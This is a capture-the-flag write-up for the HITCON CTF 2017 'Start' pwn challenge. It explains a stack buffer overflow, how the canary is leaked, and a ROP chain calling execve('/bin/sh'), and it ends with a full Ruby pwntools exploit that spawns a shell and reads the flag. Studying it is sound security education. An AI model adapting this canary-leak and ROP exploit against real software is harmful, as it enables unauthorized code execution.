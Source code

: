 ```yaml
---
layout: post
title:  "HITCON CTF 2017 Quals: Start"
author: wolvg, gast04, roman
categories: writeup
tags: [cat/pwn, tool/pwntools, lang/C, lang/ruby]
---
```


* **Category:** pwn
* **Points:** 132
* **Description:** Have you tried pwntools-ruby?

Provided files:
- start
- server.rb

# Observations

The remote server expects us to send a Ruby script.
Now we can understand the hint with pwntools-ruby.

```sh
$ nc 54.65.72.116 31337
The binary "start" is listening at 127.0.0.1:31338.
This is not important, but the Ruby version running is: 2.4.2
Give me your Ruby script, I would run it for you ;)
>
```

It's a statically linked x86-64 binary.
This is the reason for the quite large size of nearly 900 KB.
But the main function is very limited.
Only one loop that reads up to 217 characters from the commandline into a 24 byte buffer and prints it afterwards.
I guess you know what to do.
But wait, stack canaries are found!
The loop ends only, if exit is entered.

## Vulnerability

As indicated before, a stack based buffer overflow was found.
Since stack canaries are enabled, the canary value has to be leaked first.
This is possible because we got a loop with unlimited cycles.
The first step is to write an exploit for the local binary.
We are used to Python pwntools and using that first.
Next it will be adopted to Ruby pwntools to be sent to the server.


# Solution

### Leaking the Canary

If we fill the complete buffer with printable characters, the puts will print the canary value for us, in theory.
One special thing about canaries is, that the least significant byte (LSB) is always null.
The null byte would terminate a string if the buffer is full.
We will send 24 'A' with a newline.
The newline replaces the null byte.
Now we can read the canary, if no null byte is in the random canary value.
In this rare case, just run it again.

### ROP chain

Our goal is to execute a shell.
To archive this goal we make use of return oriented programming (ROP).
First we will use read to read the string "/bin/sh\0" to a known writeable address.
The .bss segment is suitable:

```python
bss = 0x6cdb60 # address to write the string "/bin/sh\0"

r = ROP('start')
r.call("read", [0, bss, len("/bin/sh\x00")])
```

The snippet starts the pwntools ROP chain builder with our vulnerable binary and a call of the read function.
This automatically searches for ROP gadgets.
All arguments for the function calls are loaded into the registers using `pop` instructions.
Keep the linux x86-64 calling convention in mind!

```
0x0000:         0x4005d5 pop rdi; ret
0x0008:              0x0
0x0010:         0x4017f7 pop rsi; ret
0x0018:         0x6cdb60
0x0020:         0x443776 pop rdx; ret
0x0028:              0x8
0x0030:         0x440300 read
```

Since the ROP chain will be placed on the stack at the place of the return address of main, the program returns to the gadget.
For example the first gadget is placed at 0x4005d5 in our binary. It pops the first argument to rdi.

```
0x004005d5      pop rdi
0x004005d6      ret
```

The next step in our attack is to call the execv syscall.
The syscall instruction expects the syscall number in the rax register.
We manually found a ROP gadget to handle this.
It also pops rdx and rbx, not used, but we put nulls on the stack for this.

```
0x0047a781      pop rax
0x0047a782      pop rdx
0x0047a783      pop rbx
0x0047a784      ret
```

Let us continue our ROP chain:

```python
r.raw(0x47a781)        # ROP gadget: pop rax; pop rdx; pop rbx; ret
r.raw(59) # execve syscall number
r.raw(0)
r.raw(0)
```

Now the last step is to call the syscall.
We found a syscall instruction in the binary at 0x4003fc.
The rax is set with the last gadget, and the bss address ("/bin/sh\0") is correctly set as first argument using pwntools.

```python
syscall = 0x4003fc # address with a syscall instruction
r.call(syscall, [bss, 0, 0])
```

## Marshalling the payload

Now it's time to put it together.
- Writing the whole buffer.
- Writing the known stack canary.
- Add some padding to get to the return address.
- Place the ROP chain.

```python
payload = "c"*24 + p64(can) + "d"*8 + r.chain()

proc.send(payload)
proc.sendline("exit")
proc.sendline("/bin/sh\0")
proc.sendline("ls")
proc.interactive()
```
After sending the payload we exit the main loop and the main function return.
The path to sh is sent, and in the end a command is executed on the shell.


## Attacking the remote server

Usually it's easy to attack the remote system using pwntools.
Just replace the `process` with a `remote` and fire!
In our case the server executes a Ruby script to attack the vulnerable binary.

Let's think about, how to adopt our attack script:
- We need to rewrite the canary stuff.
- We can export the ROP chain from python, and import it into the Ruby script.

Full exploit:

```ruby
require 'pwn'
context.arch = 'amd64'
context.log_level = :debug
p = Sock.new '127.0.0.1', 31338
chain = "\xd5\x05@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xf7\x17@\x00\x00\x00\x00\x00`\xdbl\x00\x00\x00\x00\x00v7D\x00\x00\x00\x00\x00\x08\x00\x00\x00\x00\x00\x00\x00\x00\x03D\x00\x00\x00\x00\x00\xf6\x02@\x00\x00\x00\x00\x00\x81\xa7G\x00\x00\x00\x00\x00;\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xd5\x05@\x00\x00\x00\x00\x00`\xdbl\x00\x00\x00\x00\x00\xf7\x17@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00v7D\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xfc\x03@\x00\x00\x00\x00\x00naaboaab".force_encoding("ASCII-8BIT")
to_exec = "/bin/sh\x00"
p.sendline "A"*24
all = p.recv
can_raw = "\x00"+all.split("\n")[1][0..6]
can = u64(can_raw)
payload = "c"*24+p64(can)+"d"*8+chain
p.send payload
p.sendline "exit"
p.sendline to_exec
p.sendline "cat /home/start/flag"
print p.recv
print p.recv
```

